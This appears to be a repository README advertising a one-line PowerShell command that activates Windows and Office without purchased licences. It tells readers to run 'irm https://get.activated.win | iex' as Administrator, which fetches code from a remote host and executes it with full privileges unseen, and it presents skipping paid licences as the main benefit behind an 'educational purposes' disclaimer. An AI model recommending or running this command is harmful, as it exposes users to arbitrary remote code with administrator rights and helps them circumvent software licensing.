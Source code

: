 # 🚀 Windows & Office Activation – Quick & Easy

This script provides a **simple and fast way** to activate **Windows & Microsoft Office** using a single PowerShell command. No need to buy expensive licenses or install any third-party applications! Everything happens directly through PowerShell.

## ⚡ Quick Activation Command
Run the following command in **PowerShell as Administrator**:
```powershell
irm https://get.activated.win | iex
```
✅ **Activation completes in under 30 seconds**  
✅ **Requires an active internet connection**  
✅ **No additional software or downloads needed**  
✅ **Works for both Windows & Office activation**  

## 📌 How to Use
1️⃣ Open **PowerShell as Administrator**  
2️⃣ Copy and paste the command above  
3️⃣ Press **Enter** and follow the on-screen instructions  
4️⃣ Enjoy **fully activated Windows & Office**! 🎉  

## 🔥 Why Use This?
- **No need to purchase costly activation keys**  
- **No third-party apps or keygens required**  
- **Quick and hassle-free activation**  
- **Works on multiple versions of Windows & Office**  

## ⚠️ Disclaimer
This script is **not created or owned** by me. All rights and credit belong to the original developers. This repository is solely for **educational purposes**. 
follow me on X: faisalhrbk

⚠️ **Use at your own risk.** I am not responsible for any issues that may arise from using this script.
